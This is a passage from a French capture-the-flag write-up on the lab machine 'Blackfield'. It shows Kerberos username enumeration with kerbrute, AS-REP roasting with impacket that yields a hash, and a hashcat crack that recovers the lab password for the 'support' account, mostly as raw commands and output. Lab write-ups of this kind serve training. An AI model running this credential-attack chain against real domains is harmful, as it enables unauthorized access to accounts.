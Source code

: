 ```
└─# kerbrute userenum --dc $ip -d BLACKFIELD.local user

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/05/24 - Ronnie Flathers @ropnop

2024/03/05 18:38:29 >  Using KDC(s):
2024/03/05 18:38:29 >   10.129.229.17:88

2024/03/05 18:38:38 >  [+] VALID USERNAME:       audit2020@BLACKFIELD.local
2024/03/05 18:41:25 >  [+] VALID USERNAME:       svc_backup@BLACKFIELD.local
2024/03/05 18:41:25 >  [+] VALID USERNAME:       support@BLACKFIELD.local
2024/03/05 18:42:06 >  Done! Tested 283 usernames (3 valid) in 217.214 seconds
                                                                                    
```
Je viens de trouver 3 users, alors je vais voir le `ASREPRoasting`

```
└─# impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile user -request
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:941fbb97293c47f137820d2d2ef0484a$b2b2de0269f8beb3a0be1efd86ce00c4992d9492a93b116e1e6d73ad1160a660e6022b9a38f3db3b2633f55b7f84088ed6079a3582c7eb53d970e8aaea022986676f3528a1fe3004d513afaf6f12b046a7c6b732d1bfb22c9dd567d507e07951d79561d0d51396e00ff6fb8126b059171f0560880de9e879947b63772b6e4a9ae809ebc93e46230a2259e36d489b4c62c7eabfbe272496b90f3f6bdd0959a52aa42bc51dd9d35c4d2b553dd0bdb762f434b741752d1e2bce909e97bf8909e59781436428d73ff55777f8a2bba4c2b11a9d56d838515b20c2f7921de84d7f290d8bdfef632009abd74020c9983f14762542ab9a46
                                                 
```
Je vais le cracker avec hashcat

```
└─# hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$krb5asrep$23$support@BLACKFIELD.LOCAL:941fbb97293c47f137820d2d2ef0484a$b2b2de0269f8beb3a0be1efd86ce00c4992d9492a93b116e1e6d73ad1160a660e6022b9a38f3db3b2633f55b7f84088ed6079a3582c7eb53d970e8aaea022986676f3528a1fe3004d513afaf6f12b046a7c6b732d1bfb22c9dd567d507e07951d79561d0d51396e00ff6fb8126b059171f0560880de9e879947b63772b6e4a9ae809ebc93e46230a2259e36d489b4c62c7eabfbe272496b90f3f6bdd0959a52aa42bc51dd9d35c4d2b553dd0bdb762f434b741752d1e2bce909e97bf8909e59781436428d73ff55777f8a2bba4c2b11a9d56d838515b20c2f7921de84d7f290d8bdfef632009abd74020c9983f14762542ab9a46:#00^BlackKnight
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:941fbb97293c...ab9a46
Time.Started.....: Tue Mar  5 18:46:03 2024 (8 secs)
Time.Estimated...: Tue Mar  5 18:46:11 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1722.9 kH/s (1.09ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14336000/14344387 (99.94%)
Rejected.........: 0/14336000 (0.00%)
Restore.Point....: 14331904/14344387 (99.91%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
```